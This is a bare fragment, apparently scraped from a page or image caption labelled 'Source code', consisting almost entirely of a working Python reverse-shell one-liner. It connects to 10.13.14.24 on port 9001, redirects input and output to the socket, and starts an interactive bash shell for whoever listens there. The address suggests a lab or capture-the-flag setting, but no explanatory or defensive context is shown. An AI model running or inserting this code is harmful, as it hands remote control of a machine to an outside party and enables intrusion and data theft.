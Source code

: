 
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.13.14.24",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);
